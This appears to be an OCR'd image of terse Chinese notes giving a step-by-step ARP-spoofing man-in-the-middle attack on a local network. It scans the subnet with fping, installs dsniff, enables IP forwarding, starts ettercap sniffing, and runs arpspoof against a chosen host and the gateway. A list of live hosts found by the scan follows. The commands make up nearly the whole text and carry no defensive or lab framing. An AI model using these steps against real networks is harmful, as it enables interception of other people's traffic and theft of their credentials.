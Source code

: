 * fping -g -q 192.168.1.6/24
* 先输入命令更新一下系统：
* apt-get update，接着输入命令下载安装arpspoof程序：
* apt-get install dsniff；然后查看是否下载成功输入命
* echo 1 > /proc/sys/net/ipv4/ip_forward kali 开启转发
* ettercap
     1. -Tq -i eth0 开启嗅探
     2. ettercap -G 客户端


* arpspoof -i eth0 -t 192.168.1.134 192.168.1.1


## 扫描局域网ip
192.168.1.1 is alive
192.168.1.15 is alive
192.168.1.25 is alive
192.168.1.14 is alive
192.168.1.18 is alive
192.168.1.37 is alive
192.168.1.24 is alive
192.168.1.23 is alive
192.168.1.32 is alive
192.168.1.87 is alive
192.168.1.87 : duplicate for [0], 64 bytes, 22.3 ms
192.168.1.91 is alive
192.168.1.91 : duplicate for [0], 64 bytes, 180 ms
192.168.1.115 is alive
192.168.1.134 is alive
192.168.1.73 is alive
192.168.1.73 : duplicate for [0], 64 bytes, 346 ms


